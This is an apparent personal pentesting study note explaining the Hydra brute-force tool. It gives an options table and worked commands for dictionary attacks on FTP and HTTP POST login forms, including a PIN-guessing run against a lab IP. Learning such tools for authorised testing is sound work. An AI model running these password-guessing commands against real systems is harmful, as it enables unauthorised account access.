 ```yaml
---
{"dg-publish":true,"permalink":"/notes/hydra/"}
---
```


- Crack pass with pass dic
- Supports FTP, POP3, IMAP, SMTP, SSH, and all methods related to HTTP.

| Option                                                                                                              | Description                                                   |
| ------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------- |
| `hydra -l username -P wordlist.txt server service`                                                                  | General command-line                                          |
| `hydra -l mark -P /usr/share/wordlists/rockyou.txt IP ftp`                                                          | E.g. ftp                                                      |
| `hydra -l mark -P /usr/share/wordlists/rockyou.txt ftp://IP`                                                        | E.g. ftp                                                      |
| `hydra -l <username> -P <wordlist> 10.10.181.239 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V` | Web form                                                      |
| `server`                                                                                                            | hostname or IP address of the target server.                  |
| `service`                                                                                                           | service which are trying to <br>launch the dictionary attack. |
| `-l`                                                                                                                | specifies the (SSH) **username** for login                    |
| `-P`                                                                                                                | indicates a **list of passwords**                             |
| `-t 4`                                                                                                              | sets the number of **threads** to spawn                       |
| `-s`                                                                                                                | **port** number                                               |
| `-V`                                                                                                                | Verbose for every attempt                                     |
| `-vV`                                                                                                               | very verbose<br>shows login+pass for each attempt             |
| `-d`                                                                                                                | Debugging                                                     |
| `-L`                                                                                                                | indicates a **list of users**                                 |
| `-p`                                                                                                                | specifies the (SSH) **password** for login                    |
| `-f`                                                                                                                | stops Hydra after finding a working password                  |
| `http-post-form`                                                                                                    | the type of the form is POST                                  |
| `<path>`                                                                                                            | the login page URL, for example, `login.php`                  |
| `<invalid_response>`                                                                                                | part of the response when the login fails                     |
## Post Web Form
- Brute force web forms attack.
- You must know which type of request it is making; GET or POST methods are commonly used.
- You can use your browser’s network tab (in developer tools) to see the request types or view the source code.
```shell
hydra <username> <wordlist> 10.10.181.239 http-post-form "<path>:<login_credentials>:invalid_response>"
```

### POST login form:
```shell
hydra -l <username> -P <wordlist> 10.10.181.239 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

- The login page is only `/`, i.e., the main IP address.
- The `username` is the form field where the username is entered
- The specified username(s) will replace `^USER^`
- The `password` is the form field where the password is entered
- The provided passwords will be replacing `^PASS^`
- Finally, `F=incorrect` is a string that appears in the server reply when the login fails
---
![Pasted image 20231206174317.png](/img/user/Hacking%20%C3%89tico%20y%20Pentesting/attachments/Pasted%20image%2020231206174317.png)
```sh
hydra -l '' -P 3digits.txt -f -v 10.10.180.149 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

The command above will try one password after another in the `3digits.txt` file. It specifies the following:

- `-l ''` indicates that the login name is blank as the security lock only requires a password
- `-P 3digits.txt` specifies the password file to use
- `-f` stops Hydra after finding a working password
- `-v` provides verbose output and is helpful for catching errors
- `10.10.180.149` is the IP address of the target
- `http-post-form` specifies the HTTP method to use
- `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    - `/login.php` is the page where the PIN code is submitted
    - `pin=^PASS^` will replace `^PASS^` with values from the password list
    - `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
- `-s 8000` indicates the port number on the target